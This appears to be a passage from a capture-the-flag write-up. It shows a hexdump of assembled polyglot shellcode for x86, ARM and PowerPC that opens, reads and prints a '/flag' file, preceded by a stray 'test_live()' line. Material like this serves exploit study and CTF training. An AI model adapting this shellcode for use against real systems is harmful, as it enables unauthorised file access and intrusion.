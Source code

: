     test_live()

The resulting assembled shellcode looks like: 

    00000000  73 12 00 00 48 00 01 70  9a 00 00 40 13 00 00 ea  |s...H..p...@....|
    00000010  90 90 90 90 31 c0 31 db  31 c9 31 d2 eb 32 5b b0  |....1.1.1.1..2[.|
    00000020  05 31 c9 cd 80 89 c6 eb  06 b0 01 31 db cd 80 89  |.1.........1....|
    00000030  f3 b0 03 83 ec 01 8d 0c  24 b2 01 cd 80 31 db 39  |........$....1.9|
    00000040  c3 74 e6 b0 04 b3 01 b2  01 cd 80 83 c4 01 eb df  |.t..............|
    00000050  e8 c9 ff ff ff 2f 66 6c  61 67 00 00 58 58 58 58  |...../flag..XXXX|
    00000060  40 00 8f e2 05 70 a0 e3  00 10 a0 e3 00 00 00 ef  |@....p..........|
    00000070  00 00 a0 e1 03 70 a0 e3  16 3a a0 e3 03 10 a0 e1  |.....p...:......|
    00000080  01 2a a0 e3 00 00 00 ef  00 20 a0 e1 04 70 a0 e3  |.*....... ...p..|
    00000090  01 00 a0 e3 03 10 a0 e1  00 00 00 ef 01 70 a0 e3  |.............p..|
    000000a0  00 00 a0 e3 00 00 00 ef  2f 66 6c 61 67 00 00 00  |......../flag...|
    000000b0  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    *
    00000110  e2 8f 00 40 e3 a0 70 05  e3 a0 10 00 ef 00 00 00  |...@..p.........|
    00000120  e1 a0 00 00 e3 a0 70 03  e3 a0 3a 16 e1 a0 10 03  |......p...:.....|
    00000130  e3 a0 2a 01 ef 00 00 00  e1 a0 20 00 e3 a0 70 04  |..*....... ...p.|
    00000140  e3 a0 00 01 e1 a0 10 03  ef 00 00 00 e3 a0 70 01  |..............p.|
    00000150  e3 a0 00 00 ef 00 00 00  2f 66 6c 61 67 00 00 00  |......../flag...|
    00000160  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000170  58 58 58 58 38 00 00 05  38 60 00 41 54 63 c0 0e  |XXXX8...8`.ATc..|
    00000180  38 63 01 dc 38 80 00 00  38 a0 00 00 44 00 00 02  |8c..8...8...D...|
    00000190  60 00 00 00 38 00 00 03  38 60 00 03 38 80 10 01  |`...8...8`..8...|
    000001a0  54 84 80 1e 60 84 5a 74  38 a0 08 00 44 00 00 02  |T...`.Zt8...D...|
    000001b0  60 00 00 00 7c 65 1b 78  38 00 00 04 38 60 00 01  |`...|e.x8...8`..|
    000001c0  38 80 10 01 54 84 80 1e  60 84 5a 74 44 00 00 02  |8...T...`.ZtD...|
    000001d0  38 00 00 01 38 60 00 00  44 00 00 02 2f 66 6c 61  |8...8`..D.../fla|
    000001e0  67 00 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |g.XXXXXXXXXXXXXX|
    000001f0  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    *
    00000400
